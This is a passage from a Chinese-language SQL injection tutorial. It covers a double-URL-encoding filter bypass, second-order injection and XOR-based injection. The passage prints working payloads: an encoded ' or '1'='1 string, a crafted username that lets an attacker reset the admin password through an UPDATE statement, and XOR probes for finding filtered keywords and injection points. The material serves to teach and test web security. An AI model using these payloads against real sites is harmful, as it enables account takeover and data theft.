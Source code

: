 ```
id=%2531%2527%2520%256f%2572%2520%2527%2531%2527%253d%2527%2531
# 经过WebServer自动解码后
id=%31%27%20%6f%72%20%27%31%27%3d%27%31
# 经过后台urldecode函数后
id=1' or '1'='1
```



## 0x08 二次注入

二次注入是指，输入一个带有SQL注入语句的字符串，提交后，在另一处输入时二次修改（如注册账户时注入，修改账号密码时二次注入），这种注入需要一定技巧。

举个例子吧，我们不知道网站的admin用户的密码，现在要利用二次注入修改其密码达到攻击的目的。

- 首先我们注册一个用户名为“admin\' -- -”的用户，密码随意。

- 再在登录页登录这个“admin\' -- -”用户。
- 跳转到修改密码的页面，输入“admin\' -- -”，这里是利用update语句对admin账户进行攻击：

```sql
update users set password='$pass' where username='$username';
# 修改为
update users set password='123456' where username='admin' -- -';
```

- 这样admin后面的内容相当于注释，是不执行的，这样就修改了admin的密码，我们就可以用自己设置的密码登上admin账户了。



## 0x09 异或注入

异或注入类似布尔盲注，利用异或运算后的结果是真或假来判断注入语句执行情况。

A语句^B语句：

- 如果A、B都为真或者都为假，那么结果为假；
- 如果A、B一真一假，那么结果为真。

可以利用这一点测试后端过滤了哪些关键词：

```
# 如果结果为真，说明存在select等关键词过滤
id=1'^(length('select')!=0) -- -
id=1'^(length('union')!=0) -- -
id=1'^(length('or')!=0) -- -
id=1'^(length('and')!=0) -- -
```

也可以判断注入点

```
# 如果第一个为真，第二个为假，存在数值型注入点
id=1^1^1
id=1^1

# 如果第一个为真，第二个为假，存在字符型注入点
id=1'^'1'^'1
id=1'^'1
```
